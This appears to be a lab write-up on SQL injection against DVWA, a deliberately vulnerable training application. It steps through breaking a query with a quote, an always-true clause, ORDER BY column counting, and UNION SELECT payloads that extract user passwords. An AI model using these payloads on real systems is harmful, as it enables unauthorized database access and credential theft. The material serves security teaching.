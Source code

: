 > _The SQL query uses RAW input that is directly controlled by the attacker. All they need to-do is escape the query and then they are able to execute any SQL query they wish._

1. If we put `1` as input we get back the `ID` (our input), `First name`, and `Surname` fields. 

    ![](home_id1.png)

    This translates to:
    ```sql
    SELECT first_name, last_name 
    FROM users 
    WHERE user_id = '1';
    ```

2. We can try to break the query by inserting a single quote, `'`, and see what happens:

    ![](single_quote.png)


3. We can try the "[Always True Scenario](https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson6/index.html)": if we input something that does not exist, such as `%'`, and follow that by something that is always `TRUE`, such as `'1'='1`, we will get everything back. We are essentially saying "_display all records that are `FALSE` and all records that are `TRUE`_":

    ![](sqli_users.png)

    This translates to: 
    ```sql
    SELECT first_name, last_name 
    FROM users 
    WHERE user_id = '6' 
    OR '1'='1'
    ```

3. So we have the `First name` and `Surname` fields of all 5 users. We need to first find out if more fields are available in the database. According to [PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks) one way of doing that is by performing a **UNION attack** and the use of `ORDER BY` clause:

    > Notice that we are using [MariaDB](https://mariadb.com/kb/en/comment-syntax/), so we need to end our payload either with `#` or `-- `.

    If we inject `' ORDER BY 1-- ` we get nothing back, so we increment the number until we get an error:

    ![](order_by_3.png)

4. We got the error on `3`, so this confirms that there are only 2 fields in that table. We can try guessing those fields, for instance, inputting `' UNION SELECT username, password FROM users#`:

    ![](username_error.png)

5. The field `username` does not exist, so we could try changing that to something similar, such as `' UNION SELECT user, password FROM users#`:

    ![](user_success.png)
